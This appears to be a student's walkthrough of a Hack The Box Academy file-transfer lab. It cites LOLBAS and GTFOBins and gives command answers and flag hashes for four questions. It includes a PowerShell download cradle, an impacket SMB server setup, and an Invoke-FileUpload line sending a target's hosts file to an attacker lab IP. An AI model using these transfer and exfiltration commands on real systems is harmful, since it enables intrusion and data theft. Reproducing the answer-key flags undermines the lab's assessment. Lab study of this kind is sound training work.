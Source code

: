 ## Living off the land

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

With these repositories, I can

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

***

## Questions

1. Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer.

```
wget http://10.129.187.31/flag.txt
cat flag.txt							# b1a4ca918282fcd96004565521944a3b
```

2. RDP to the target. Upload the attached file named upload\_win.zip to the target using the method of your choice. Once uploaded, RDP to the box, unzip the archive, and run "hasher upload\_win.txt" from the command line. Submit the generated hash as your answer.

```
curl -o 'upload_win.zip' 'https://academy.hackthebox.com/storage/modules/24/upload_win.zip'
curl -o 'smbserver.py' 'https://raw.githubusercontent.com/fortra/impacket/master/examples/smbserver.py'
sudo python smbserver.py share -smb2support /tmp/smbshare
```

```
(New-Object Net.WebClient).DownloadFile('https://academy.hackthebox.com/storage/modules/24/upload_win.zip', 'c:\users\public\downloads\upload-win.zip')
Invoke-FileUpload -Uri http://10.10.14.9:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

3. Download the file flag.txt from the web root using Python from the Pwnbox. Submit the contents of the file as your answer.

```
wget 10.129.93.122/flag.txt		# 5d21cf3da9c0ccb94f709e2559f3ea50
```

4. Upload the attached file named upload\_nix.zip to the target using the method of your choice. Once uploaded, SSH to the box, extract the file, and run "hasher extracted file" from the command line. Submit the generated hash as your answer.

```
# I go to remote machine through SSH and I create a php web server.  
# Then, I transfer file from pwnbox to remote and I execute the next command on remote.

ssh htb-student@10.129.93.122

wget https://academy.hackthebox.com/storage/modules/24/upload_nix.zip
unzip upload_nix.zip
php -S 0.0.0.0:8000

wget http://10.10.15.0:8000/upload_nix.txt
hasher upload_nix.txt							# 159cfe5c65054bbadb2761cfa359c8b0
```
